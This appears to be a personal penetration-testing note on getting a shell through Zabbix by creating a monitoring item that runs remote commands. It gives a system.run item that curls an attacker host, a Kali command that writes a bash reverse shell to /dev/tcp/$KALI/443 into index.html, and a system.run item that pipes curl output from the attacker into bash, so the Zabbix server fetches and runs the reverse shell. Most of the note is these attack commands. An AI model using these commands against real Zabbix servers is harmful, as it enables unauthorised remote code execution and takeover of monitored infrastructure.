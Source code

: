 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://blog.zabbix.com/zabbix-remote-commands/7500/

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Configuration > Hosts > $Hostname > Configuration > Items > Create Item
```
system.run[curl $KALI,nowait]
```

Click `Test`, then `Get value`, check listener.

![[Pasted image 20220925113513.png]]

```bash - kali
echo '/bin/bash -c "bash -i >& /dev/tcp/$KALI/443 0>&1"' > index.html
```

```
system.run[curl $KALI|bash,nowait]
```


